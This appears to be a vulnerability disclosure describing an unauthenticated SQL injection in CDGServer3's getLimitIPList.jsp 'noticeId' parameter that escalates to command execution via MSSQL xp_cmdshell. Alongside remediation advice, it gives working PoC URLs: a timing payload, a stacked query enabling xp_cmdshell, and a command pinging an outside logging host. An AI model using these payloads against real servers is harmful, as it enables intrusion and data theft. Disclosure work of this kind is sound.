 ![image-20250324104241732](./assets/image-20250324104241732.png)

# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:

A SQL injection vulnerability was discovered in the `getLimitIPList.jsp` endpoint, specifically in the `noticeId` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:

`/CDGServer3/parameter/getLimitIPList.jsp`

### Vulnerability Type:

RCE

### Vulnerable Code:

```jsp
<%
	if (loginMng == null || !loginMng.isLogin()) {
		response.sendRedirect("../loginExpire.jsp");
	}
	String noticeId = request.getParameter("noticeId");//初始化参数
	int currPage = RequestUtil.getIntParameter(request,"curpage",1); //当前是第几页
	NoticeDao dao = new NoticeDao();
	NoticeInfo info = dao.findById(noticeId);
	Constant constant = Constant.instance;
	String downloadPath=  constant.UPLOAD_RELATIVE_PATH + constant.UPLOADEDDOWN_TEMP_PATH;
%>
```

### Proof of Concept (PoC):

1. Time-based SQL Injection:

   ```
   https://uri/CDGServer3/parameter/getLimitIPList.jsp?noticeId=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:

   ```
   https://uri/CDGServer3/parameter/getLimitIPList.jsp?noticeId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:

   ```
   https://uri/CDGServer3/parameter/getLimitIPList.jsp?noticeId=1';exec master..xp_cmdshell 'ping fewfwefs.ipv6.1433.eu.org.'--
   ```

### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:

- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:

1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:

The RCE in the `getLimitIPList.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)